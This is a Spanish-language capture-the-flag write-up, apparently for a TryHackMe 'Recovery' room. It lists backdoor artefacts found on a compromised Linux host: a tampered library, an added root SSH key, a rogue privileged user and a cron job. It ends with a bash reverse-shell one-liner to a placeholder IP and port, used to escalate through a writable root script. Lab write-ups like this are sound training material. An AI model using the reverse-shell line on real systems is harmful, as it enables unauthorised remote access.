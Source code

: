 1. El archivo en la siguiente ruta `/opt/.fixutil/backup.txt` parece sospechoso y solo tiene permisos el usuario propietario (root).  
2. Se ejecutó la siguiente línea de comandos `/bin/mv /tmp/logging.so /lib/x86_64-linux-gnu/oldliblogging.so` la cual mueve el archivo `logging.so`  hacia el directorio `/lib/x86_64-linux-gnu/` con el nombre `oldliblogging.so`.  
3. Se añade una llave ssh al archivo de llaves autorizadas del usuario root
4. Se agrega el usuario `security` en el grupo de usuarios con privilegios de root además de cambiarle la contraseña a la que se puede ver en la imagen
5. La creación de `brilliant_script` y la tarea cron `evil`


![Analisis de strings](/assets/img/1_THM-Recovery/6.jpg)

6. La modificación del archivo `.bashrc` de alex
7. Esta línea de comandos se ejecutó antes de la tarea 2: `/bin/cp /lib/x86_64-linux-gnu/liblogging.so /tmp/logging.so` la cual copia el archivo `liblogging.so` hacía el directorio `/tmp/` con el nombre `logging.so` pero se deduce que se realizó alguna modificación en algún punto.
8. Se ejecuta la el módulo `liblogging.so`


Dado que las tareas identificadas se realizaron con privilegios elevados y ya que `brilliant_script` se ejecuta con privilegios de root, podemos aprovechar los permisos de escritura sobre este archivo y establecer una reverse shell con netcat agregando lo siguiente:


```shell
bash -c 'bash -i >& /dev/tcp/IP/PUERTO 0>&1'
```

